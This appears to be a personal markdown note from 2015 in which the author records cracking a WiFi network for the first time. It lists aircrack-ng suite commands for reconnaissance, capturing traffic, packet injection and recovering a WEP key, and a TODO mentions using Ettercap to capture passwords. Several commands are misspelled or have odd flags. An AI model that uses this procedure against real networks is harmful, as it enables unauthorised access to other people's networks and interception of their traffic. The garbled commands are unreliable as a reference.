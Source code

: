 #27/11/2015

Hacked WiFi for the first time! ![FOTO](http://i.imgur.com/PP0AThP.png)

#Steps/Commands

wlan0 = own interface -> wlan1monmon

mon0 = find it by "airmon-ng"

###Wireless Reconnaiccance:
**Window 1**
* iwconfig
* airmin-ng start wlan0
* airodump-ng mon0
* Find information in table
  * ESSID
  * BSSID
  * Channel
  * Client's  MAC

###WEP:
**Window 1**
* airmon-ng
  * Find mon0
* airodump-ng mon0
* Find information in table
	
**New window 2**
* airodump-ng --bssid "client's MAC" -c "Channel" -w wep_log mon0

**New window 3** 
* ifconfig 
* Find own MAC

**New window 4**
* airdoplay-ng -l 0 -a "client's MAC" -h "own MAC" -e "name connaction" mon0 --ignore-negative-one
* airoplay-ng -3 -b "client's MAC" -h "own MAC" mon0 --ignore-negative-one

**New window 5**
* aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b "client's MAC" -h "own MAC" mon0 --ignore-negative-one
* use this packet? ENTER

**Window 2** 
* Everything is fine if data is above 5000 
* Close window 2, 3, 4, 5

**First window**	
* clear
* aircrack-ng -a l -b "client's MAC" -n 64 wep_log-01.cap
	
**_FIND PASSWORD!!!!_**

Next time: Script schrijven!
TODO: Ethercap opzoeken (Hoe wachtwoorden "vangen" !?)
